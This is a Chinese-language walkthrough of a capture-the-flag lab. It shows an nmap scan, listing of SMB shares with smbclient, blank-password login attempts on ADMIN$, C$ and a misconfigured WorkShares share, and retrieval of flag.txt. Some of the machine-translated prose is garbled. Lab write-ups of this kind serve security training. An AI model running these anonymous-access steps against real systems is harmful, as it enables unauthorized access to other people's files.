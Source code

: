 # SMB匿名登录445

运行以下命令将使 nmap 扫描所有端口并显示每个端口的服务版本

```
┌──(root㉿kali)-[~]
└─# nmap -sS -sV 10.129.105.148  
Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-02 21:10 EDT
Nmap scan report for 10.129.105.148
Host is up (1.2s latency).
Not shown: 997 closed tcp ports (reset)
PORT    STATE SERVICE       VERSION
135/tcp open  msrpc         Microsoft Windows RPC
139/tcp open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds?
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 158.63 seconds
```

如前所述，我们观察到 SMB 的端口 445 TCP 已启动并正在运行，这意味着我们有一个可以探索的活跃共享。 将此共享视为可以通过 Internet 访问的文件夹。

Smbclient 将尝试连接到远程主机并检查是否需要任何⾝份验证。如果有，它会要求您输⼊本地⽤⼾名的密码。我们 应该注意到这⼀点。如果我们在尝试连接到远程主机时没有为 smbclient 指定特定的⽤⼾名，它将仅使⽤本地计算 机的⽤⼾名。这是您当前登录虚拟机所⽤的虚拟机。这是因为 SMB ⾝份验证始终需要⽤⼾名，因此如果不明确为其提供 ⽤⼾名来尝试登录，则只需传递您当前的本地⽤⼾名即可避免引发协议错误。

该密码与您之前输⼊的⽤⼾名相关。假设，如果我们是尝试登录其资源的合法远程⽤⼾，我们将知道我们的⽤⼾名和密码并正常登录以访问我们的共 享。在这种情况下，我们没有此类凭据，因此我们将尝试执⾏以下任⼀操作：

```
┌──(root㉿kali)-[~]
└─# smbclient -L 10.129.105.148
Password for [WORKGROUP\root]:

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        WorkShares      Disk      
Reconnecting with SMB1 for workgroup listing.
```

运⾏上⾯的命令，我们看到显⽰了四个单独的共享。让我们逐⼀浏览并了解它们的含义。

* ADMIN$ - 管理共享是由 Windows NT 系列操作系统创建的隐藏⽹络共享，允许系统管理员远程访问⽹络连接系统上的每个磁盘卷。 这些共享可能不会被永久删除，但可能会被禁⽤。
* C$ - C:\ 磁盘卷的管理共享。 这是操作系统的托管位置。
* IPC$ - 进程间通信共享。⽤于通过命名管道进⾏进程间通信，不属于⽂件系统的⼀部分。
* WorkShares - ⾃定义共享。

我们将尝试连接除 IPC$ 之外的每个共享，这对我们来说没有价值，因为它是 无法像任何常规目录一样可浏览，并且不包含我们可以在此使用的任何文件 我们的学习经历的阶段。 我们将使用与之前相同的策略，尝试在没有 正确的凭据来查找任何这些共享上配置不当的权限。 我们只给一个空白 每个用户名的密码，看看它是否有效。 首先，让我们尝试一下 ADMIN$ 。

```
┌──(root㉿kali)-[~]
└─# smbclient \\\\10.129.105.148\\ADMIN$
Password for [WORKGROUP\root]:
tree connect failed: NT_STATUS_ACCESS_DENIED
```

输出 NT\_STATUS\_ACCESS\_DENIED，让我们知道我们没有正确的凭据 连接到此共享。 我们将跟进加元行政份额。

```
┌──(root㉿kali)-[~]
└─# smbclient \\\\10.129.105.148\\C$    
Password for [WORKGROUP\root]:
tree connect failed: NT_STATUS_ACCESS_DENIED
```

这里有同样的想法。 最后的机会。 我们继续尝试登录自定义 WorkShares SMB 共享。 这似乎是人为的，因此容易出现配置错误。

```
┌──(root㉿kali)-[~]
└─# smbclient \\\\10.129.105.148\\WorkShares
Password for [WORKGROUP\root]:
Try "help" to get a list of possible commands.
smb: \> 
```

成功！ WorkShares SMB 共享配置不当，导致我们无法在没有适当权限的情况下登录 证书。 我们可以看到终端提示符更改为 smb: > ，让我们知道我们的 shell 现在是 与服务交互。 我们可以使用 help 命令来查看在此 shell 中可以执行哪些操作。

```
smb: \> help
?              allinfo        altname        archive        backup         
blocksize      cancel         case_sensitive cd             chmod          
chown          close          del            deltree        dir            
du             echo           exit           get            getfacl        
geteas         hardlink       help           history        iosize         
lcd            link           lock           lowercase      ls             
l              mask           md             mget           mkdir          
more           mput           newer          notify         open           
posix          posix_encrypt  posix_open     posix_mkdir    posix_rmdir    
posix_unlink   posix_whoami   print          prompt         put            
pwd            q              queue          quit           readlink       
rd             recurse        reget          rename         reput          
rm             rmdir          showacls       setea          setmode        
scopy          stat           symlink        tar            tarmode        
timeout        translate      unlock         volume         vuid           
wdel           logon          listconnect    showconnect    tcon           
tdis           tid            utimes         logoff         .. 
```

从输出中，我们可以注意到我们在 Linux 中习惯的大部分命令都存在。 我们将 使用以下命令导航共享：

```
ls ：列出共享中目录的内容
cd ：更改共享中的当前目录
get ：下载共享中目录的内容
exit : 退出 smb shell
```

输入 ls 命令将显示两个目录，一个用于 Amy.J ，另一个用于 James.P 。 我们参观了 第一个是一个名为 worknotes.txt 的文件，我们可以使用 get 命令下载该文件。

```
smb: \> ls
  .                                   D        0  Mon Mar 29 04:22:01 2021
  ..                                  D        0  Mon Mar 29 04:22:01 2021
  Amy.J                               D        0  Mon Mar 29 05:08:24 2021
  James.P                             D        0  Thu Jun  3 04:38:03 2021

                5114111 blocks of size 4096. 1753207 blocks available
```

该文件现在保存在我们运行 smbclient 命令的位置中。 让我们继续 在 James.P 的目录中寻找其他有价值的文件。 导航到它，我们可以找到所寻找的flag.txt 文件也是如此。 检索到该文件后，我们可以使用 exit 命令退出 shell 并检查我们的文件 刚刚取回。

```
smb: \> ls
  .                                   D        0  Mon Mar 29 04:22:01 2021
  ..                                  D        0  Mon Mar 29 04:22:01 2021
  Amy.J                               D        0  Mon Mar 29 05:08:24 2021
  James.P                             D        0  Thu Jun  3 04:38:03 2021

                5114111 blocks of size 4096. 1753207 blocks available
smb: \> cd James.P
smb: \James.P\> ls
  .                                   D        0  Thu Jun  3 04:38:03 2021
  ..                                  D        0  Thu Jun  3 04:38:03 2021
  flag.txt                            A       32  Mon Mar 29 05:26:57 2021
c
                5114111 blocks of size 4096. 1753175 blocks available
smb: \James.P\> get flag.txt
getting file \James.P\flag.txt of size 32 as flag.txt (0.0 KiloBytes/sec) (average 0.0 KiloBytes/sec)
```
